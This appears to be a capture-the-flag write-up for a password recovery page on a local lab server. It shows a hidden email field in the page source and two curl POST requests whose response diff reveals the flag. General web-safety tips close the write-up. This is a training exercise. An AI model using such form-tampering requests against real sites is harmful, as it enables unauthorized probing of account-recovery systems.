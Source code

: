 # Password recover Page

__http://192.168.99.101/?page=recover__

## Description
This page for password recovering. 

## Form Outputs
Let's look on the page source exactly to ```</form>``` tag.

```
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value="Submit">
</form>
```
We get the email __webmaster@borntosec.com__.

## Flag
Let's use obtained email and compare with random email.
```
curl -s 'http://192.168.99.101/?page=recover' --data 'mail=webmaster%40borntosec.com&Submit=Submit' -o webmaster.html
curl -s 'http://192.168.99.101/?page=recover' --data 'mail=krasty%40lnoisome.com&Submit=Submit' -o krasty.html
diff webmaster.html krasty.html 
```
Inside the diff output html we get the flag

## Safety
When it comes to web safety, there are a few important points to consider based on the exercise: </br>
1. Be cautious with password recovery pages: Password recovery pages should be handled with care as they often involve sensitive information. It's crucial to ensure that the page is secure and that any personal data, such as email addresses, are protected.
2. Check the page source: Examining the page source can often reveal important information about a website's functionality or vulnerabilities. In this exercise, checking the page source helped uncover the email address associated with password recovery.
3. Protect personal information: The exercise demonstrates the importance of protecting personal information, such as email addresses. It's crucial to be mindful of who has access to this information and how it is stored or shared.
4. Use secure connections: When interacting with web pages that involve sensitive information, make sure to use secure connections (HTTPS) to protect your data from potential eavesdropping or interception.
5. Implement security measures: As a user, it's important to implement security measures such as strong, unique passwords for different online accounts, enabling two-factor authentication, and regularly updating software and applications to minimize potential security risks.


